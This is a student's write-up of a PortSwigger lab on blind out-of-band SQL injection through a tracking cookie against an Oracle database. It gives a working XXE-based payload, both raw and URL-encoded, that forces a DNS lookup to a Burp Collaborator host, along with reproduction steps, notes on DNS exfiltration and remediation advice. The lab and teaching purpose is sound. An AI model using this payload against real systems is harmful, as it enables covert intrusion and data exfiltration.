

# 16-sqli-blind-oob-dns-interaction


---

## Table of Contents

1. [Overview](#overview)
2. [Scope & Objectives](#scope--objectives)
3. [Methodology](#methodology)
4. [Findings](#findings)
5. [Risk Summary](#risk-summary)
6. [Attack Chain](#attack-chain)
7. [Tools & Environment](#tools--environment)
8. [Evidence](#evidence)
9. [Remediation Strategy](#remediation-strategy)
10. [Lessons Learned](#lessons-learned)
11. [References](#references)
12. [Author](#author)

---

## Overview

This writeup documents the exploitation of a blind SQL injection vulnerability through an
out-of-band (OOB) DNS interaction channel in a PortSwigger Web Security Academy lab. The
target application passes the `TrackingId` cookie value into a SQL query executed
asynchronously against an Oracle database backend. Because the query runs asynchronously,
neither results nor timing differences are observable in the HTTP response — eliminating both
output-based and time-based inference channels.

The attack pivots to an out-of-band channel: by injecting an Oracle XML External Entity (XXE)
payload via `EXTRACTVALUE()` and `xmltype()`, the database engine is forced to resolve an
external DNS name pointing to a Burp Collaborator server. DNS interaction received by the
Collaborator instance confirms successful injection and code execution within the database
context, without any observable change in the application's HTTP responses.

This lab maps to **OWASP Top 10 (2021) A03** (Injection), **CWE-89**, and demonstrates
the most evasion-resistant class of SQL injection — one that bypasses both WAF response
inspection and timing-based detection controls.

---

## Scope & Objectives

| Field | Detail |
|---|---|
| Platform | PortSwigger Web Security Academy |
| Lab Title | Blind SQL Injection with Out-of-Band Interaction |
| Lab Number | 16 (PortSwigger SQLi Series) |
| Target Component | `TrackingId` HTTP Cookie |
| Database Backend | Oracle |
| In Scope | Cookie parameter injection, out-of-band DNS channel |
| Out of Scope | Data exfiltration, authentication bypass, other parameters |
| Objective | Trigger a DNS lookup to Burp Collaborator via SQL injection in the TrackingId cookie |

---

## Methodology

The assessment followed the **PTES (Penetration Testing Execution Standard)** and aligned with
**NIST SP 800-115** technical testing guidelines.

### Phase 1 — Injection Surface Identification

Intercepted HTTP requests using Burp Suite and identified the `TrackingId` cookie as the
target parameter. Confirmed that the application's responses are identical regardless of cookie
value — ruling out both error-based and Boolean-based inference. Response timing is also
consistent, ruling out time-based inference. The injection therefore requires an out-of-band
channel.

### Phase 2 — OOB Channel Selection

Oracle databases support DNS resolution triggered through XML External Entity declarations
processed by `xmltype()` and queried via `EXTRACTVALUE()`. This technique causes the Oracle
engine to initiate an outbound DNS lookup as a side effect of query execution — independent of
the HTTP response returned to the client.

Burp Suite Professional's Collaborator feature provides a controlled external DNS listener to
confirm interaction receipt.

### Phase 3 — Payload Construction

Constructed an Oracle XXE-based DNS trigger payload:

```sql
' UNION SELECT EXTRACTVALUE(
    xmltype('<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
        <!ENTITY % remote SYSTEM "http://iuqg0uqdwgv1tt1zv415541v7lva.burpcollaborator.net/">
        %remote;
    ]>'),
    '/l'
) FROM dual--
```

URL-encoded form injected into the `TrackingId` cookie:

```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//iuqg0uqdwgv1tt1zv415541v7lva.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

**Payload breakdown:**

| Component | Role |
|---|---|
| `UNION SELECT ... FROM dual` | Oracle-compatible UNION clause to inject a second SELECT |
| `xmltype('...')` | Oracle function that parses an XML string — triggers external entity resolution |
| `<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://..."> %remote; ]>` | XML External Entity declaration pointing to Burp Collaborator |
| `EXTRACTVALUE(..., '/l')` | Forces XML parsing and entity resolution, triggering the DNS lookup |
| `FROM dual` | Oracle dummy table — required for SELECT without a real table |

### Phase 4 — Interaction Confirmation

Submitted the crafted request. Burp Collaborator received a DNS lookup from the Oracle
database server to `iuqg0uqdwgv1tt1zv415541v7lva.burpcollaborator.net`, confirming injection
execution. Lab status transitioned to solved.

---

## Findings

### F-001 — Blind Out-of-Band SQL Injection via TrackingId Cookie (Oracle XXE DNS) [CRITICAL]

| Field | Detail |
|---|---|
| Finding ID | F-001 |
| Severity | [CRITICAL] |
| CVSS v3.1 Score | 9.8 |
| CVSS v3.1 Vector | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| CWE | CWE-89 — Improper Neutralisation of Special Elements used in an SQL Command |
| OWASP Top 10 (2021) | A03:2021 — Injection |
| MITRE ATT&CK TTP | T1190 — Exploit Public-Facing Application; T1048 — Exfiltration Over Alternative Protocol |
| Affected Component | `TrackingId` HTTP Cookie |

**Description**

The application constructs a SQL query by interpolating the raw `TrackingId` cookie value
without parameterisation. The query executes asynchronously against an Oracle backend, making
the injection entirely blind — response body, status code, and timing are all identical
regardless of the injected condition. An attacker can nonetheless achieve arbitrary SQL
execution by leveraging Oracle's XML parsing functionality to initiate outbound DNS requests
to an attacker-controlled server. This constitutes a fully covert command-and-control-capable
injection path with no application-layer observable side effects.

**Technical Impact**

- Confirmed arbitrary SQL execution within the Oracle database context
- Potential for full data exfiltration via DNS (encoding data in subdomain labels)
- Potential for SSRF to internal network resources reachable by the database host
- Network reconnaissance of internal systems adjacent to the database server

**Business Impact**

- Exfiltration of sensitive data (credentials, PII, financial records) via DNS channel
  bypassing HTTP-level egress controls
- Covert persistence path — attack may proceed entirely without detection by HTTP-layer
  security tooling (WAF, IDS, SIEM based on HTTP logs)
- Regulatory exposure under GDPR, PCI-DSS, and applicable data protection legislation

**Proof of Concept**

```
Cookie: TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//iuqg0uqdwgv1tt1zv415541v7lva.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--; session=EDFjKBGM8wp20fOpzDVv0K8x2UeuawKq
```

Decoded payload (for readability):

```sql
x' UNION SELECT EXTRACTVALUE(
    xmltype('<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
        <!ENTITY % remote SYSTEM "http://[collaborator-host]/">
        %remote;
    ]>'),
    '/l'
) FROM dual--
```

**Reproduction Steps**

1. Configure Burp Suite Professional and open a Burp Collaborator client instance.
2. Copy the generated Collaborator subdomain (e.g., `xyz.burpcollaborator.net`).
3. Intercept any request to the application containing the `TrackingId` cookie.
4. Replace the cookie value with the URL-encoded payload above, substituting your
   Collaborator subdomain.
5. Forward the request.
6. In the Collaborator client, click "Poll now".
7. Confirm DNS interaction received from the Oracle server's IP address.

---

## Risk Summary

| ID | Title | Severity | CVSS | Priority |
|---|---|---|---|---|
| F-001 | Blind OOB SQLi via TrackingId — Oracle XXE DNS | [CRITICAL] | 9.8 | [IMMEDIATE] |

---

## Attack Chain

```
[Attacker]
    |
    v
[Burp Suite — crafts Oracle XXE DNS payload, injects into TrackingId cookie]
    |
    v
[HTTP Request sent to target application]
    |
    v
[Application concatenates cookie value into Oracle SQL query — no parameterisation]
    |
    v
[Oracle executes UNION SELECT — xmltype() parses injected XML]
    |
    v
[XML parser resolves SYSTEM entity — triggers outbound DNS lookup]
    |
    v
[DNS query reaches Burp Collaborator: iuqg0uqdwgv1tt1zv415541v7lva.burpcollaborator.net]
    |
    v
[Collaborator logs interaction — injection confirmed, lab solved]
    |
    v
[Application HTTP response: unchanged — attack entirely out-of-band]
```

**MITRE ATT&CK Mapping**

| Tactic | Technique | ID |
|---|---|---|
| Initial Access | Exploit Public-Facing Application | T1190 |
| Exfiltration | Exfiltration Over Alternative Protocol (DNS) | T1048.003 |
| Discovery | Network Service Discovery | T1046 |
| Command & Control | Application Layer Protocol — DNS | T1071.004 |

---

## Tools & Environment

| Tool | Version | Purpose |
|---|---|---|
| Burp Suite Professional | Latest | HTTP interception, payload injection, Collaborator DNS listener |
| Burp Collaborator | Built-in | Out-of-band DNS interaction receiver |
| Browser (Chromium) | Latest | Lab access |
| Oracle DB (target) | Not disclosed | Target database engine — xmltype() / EXTRACTVALUE() exploitation |
| PortSwigger Web Security Academy | N/A | Lab hosting platform |

---

## Evidence

**Figure 1 — Lab Solved Confirmation**



*Application confirming lab solved status. DNS interaction from the Oracle server was received
by the Burp Collaborator listener, confirming out-of-band blind SQL injection execution.*

---

## Remediation Strategy

### R-001 — Parameterise All SQL Queries [IMMEDIATE]

The `TrackingId` cookie value must be passed as a bound parameter at all database access
points. Parameterised queries prevent injected SQL fragments from being interpreted by the
Oracle engine regardless of payload complexity.

**Vulnerable pattern (pseudocode):**
```sql
"SELECT ... WHERE tracking_id = '" + cookie_value + "'"
```

**Remediated pattern (pseudocode):**
```java
PreparedStatement stmt = conn.prepareStatement("SELECT ... WHERE tracking_id = ?");
stmt.setString(1, cookieValue);
```

### R-002 — Disable Oracle XML External Entity Resolution [IMMEDIATE]

Configure the Oracle database to disallow outbound network access from XML parsing operations.
Oracle's `UTL_HTTP`, `UTL_FILE`, and external entity resolution should be restricted to
explicitly authorised use cases via database-level privilege controls.

```sql
-- Revoke network access from application service account
REVOKE EXECUTE ON UTL_HTTP FROM app_user;
REVOKE EXECUTE ON UTL_FILE FROM app_user;
```

### R-003 — Egress Firewall — Block Database Host Outbound DNS [IMMEDIATE]

The database server should have no outbound network access beyond what is explicitly required
for operations. DNS requests originating from the database host to arbitrary external resolvers
should be blocked at the network layer and alerted on.

### R-004 — Input Validation on Cookie Values [SHORT-TERM]

Apply allowlist validation to the `TrackingId` cookie. Reject any value containing characters
outside the expected alphanumeric tracking ID format (`[A-Za-z0-9]`, fixed length).

### R-005 — DNS Exfiltration Monitoring [PLANNED]

Deploy DNS-layer monitoring (e.g., DNS firewall, passive DNS logging) to detect anomalous
outbound DNS queries from internal hosts — particularly database servers. Queries to
`*.burpcollaborator.net`, `*.interactsh.com`, or other known OOB interaction domains should
trigger immediate alerts.

### Retest Criteria

- Inject the full XXE DNS payload into the `TrackingId` cookie.
- Confirm no DNS interaction is received by the Collaborator listener.
- Confirm the database host generates no outbound DNS traffic to external resolvers.

---

## Lessons Learned

- Asynchronous query execution eliminates both output-based and time-based inference channels
  simultaneously. Out-of-band techniques are the only viable path when neither result nor
  timing is observable.
- Oracle's `xmltype()` and `EXTRACTVALUE()` enable DNS and HTTP lookups purely through XML
  parsing side effects — no special Oracle privileges are required by the attacker beyond
  the ability to inject into a query that runs as a sufficiently privileged user.
- OOB injection is the hardest class to detect at the HTTP layer. WAFs and IDS systems
  inspecting HTTP traffic see no anomalous response — the only signal is at the DNS/network
  layer, which many organisations do not monitor at the database host level.
- DNS is the most reliable OOB channel across environments. HTTP egress is frequently
  blocked from database hosts; DNS resolution is rarely restricted because it is assumed to
  be necessary for operations. This makes DNS the default first-choice OOB vector.
- Burp Collaborator is the standard tool for OOB interaction confirmation in lab and pentest
  contexts. In real engagements, `interactsh` (open-source) serves the same function for
  non-Burp Pro users.
- The `FROM dual` clause is Oracle-specific — this payload will not work against MySQL,
  PostgreSQL, or MSSQL without backend-appropriate equivalents (`UTL_HTTP`, `xp_dirtree`,
  `load_file` respectively).

---

## References

| Reference | Detail |
|---|---|
| OWASP Top 10 (2021) — A03 | https://owasp.org/Top10/A03_2021-Injection/ |
| CWE-89 | https://cwe.mitre.org/data/definitions/89.html |
| MITRE ATT&CK T1190 | https://attack.mitre.org/techniques/T1190/ |
| MITRE ATT&CK T1048.003 | https://attack.mitre.org/techniques/T1048/003/ |
| MITRE ATT&CK T1071.004 | https://attack.mitre.org/techniques/T1071/004/ |
| NIST SP 800-115 | https://csrc.nist.gov/publications/detail/sp/800/115/final |
| PortSwigger SQLi Cheat Sheet | https://portswigger.net/web-security/sql-injection/cheat-sheet |
| PortSwigger OOB SQLi | https://portswigger.net/web-security/sql-injection/blind/out-of-band |
| CVSS v3.1 Calculator | https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator |
| Oracle xmltype() | https://docs.oracle.com/en/database/oracle/oracle-database/19/adxdb/XMLType-APIs.html |
| Burp Collaborator | https://portswigger.net/burp/documentation/collaborator |

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> *"Built in the lab. Documented for the field."*

---
> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated
> lab environments or sanctioned CTF platforms. No unauthorized systems were accessed.
> This project is intended for educational and portfolio purposes only.
